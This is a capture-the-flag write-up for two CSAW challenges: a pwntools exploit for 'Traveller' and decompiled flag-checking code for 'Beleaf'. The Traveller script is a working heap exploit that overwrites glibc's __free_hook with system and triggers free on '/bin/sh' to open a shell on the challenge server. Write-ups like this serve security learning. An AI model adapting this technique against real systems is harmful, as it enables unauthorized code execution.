 

### Traveller
#### Solution
```
from pwn import *

r = remote("pwn.chal.csaw.io", 1003)
libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")

# special chunk
r.recvuntil(">")
r.sendline('1')
r.sendline('3')
r.sendline('/bin/sh')

# overwrite __free_hook with (system@plt+6)
r.recvuntil(">")
r.sendline('2')
r.sendline(str( -262194 ))
r.send(p64(0x400716))

# free something
r.recvuntil(">")
r.sendline('3')
r.sendline('0')

r.interactive()
```
** note: this isn't, obviously, the intended solution by the author



### Beleaf
This is the decompiled version of the main function:
```
int main(){
  printf("Enter the flag\n>>> ", a2, a2);
  __isoc99_scanf("%s", flags);
  len_flags = strlen(flags);
  if ( len_flags <= 0x20 )
  {
    puts("Incorrect!");
    exit(1);
  }
  for ( i = 0LL; i < len_flags; ++i )
  {
    if ( routine_check(flags[i]) != key_final[i] )
    {
      puts("Incorrect!");
      exit(1);
    }
  }
  puts("Correct!");
  return 0;
}
```
